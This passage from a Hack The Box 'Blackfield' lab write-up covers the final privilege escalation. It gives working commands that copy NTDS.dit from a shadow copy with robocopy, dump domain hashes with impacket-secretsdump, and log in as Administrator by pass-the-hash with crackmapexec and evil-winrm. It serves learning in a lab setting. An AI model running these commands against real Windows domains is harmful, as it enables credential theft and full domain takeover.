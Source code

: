 <img src="{{ site.img_path }}/blackfield_writeup/Blackfield_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_70.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_71.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_72.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

As always **HackTricks** comes to my assistance and in his article [“Privileged Groups”](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges){:target="_blank"} he suggests me to use `robocopy` to copy the **NTDS.dit** file from the shadow copy. Once I can copy it, I just transfer it to my attacking machine and with `impacket-secretsdump` I extract the hashes. And finally with `evil-winrm` I can perform the **Pass the hash attack** for the **Administrator** user and access the last flag, pwned box.

> **Victime Machine**:

```bash
robocopy /B w:\Windows\NTDS .\ntds ntds.dit                                                 # :)
download ntds
```

> **Attacker Machine**:

```bash
impacket-secretsdump -ntds ntds.dit -system ../system LOCAL                                 # :)

crackmapexec smb 10.10.10.192 -u 'Administrator' -H '184fb5e5178480be64824d4cd53b99ee'      # :)
evil-winrm -i 10.10.10.192 -u 'Administrator' -H '184fb5e5178480be64824d4cd53b99ee'         # :)
```

<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_73.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_74.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_75.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_76.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> Playing/learning with **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** is always so satisfying for me, it is a huge satisfaction to understand concepts that before seemed overwhelming and even some boring. With each lab that I complete and assimilate each concept involved, I just want to continue with the next challenge, so I'm going to kill this box from my account and continue with the saga of Windows machines.

<br /><br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_77.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
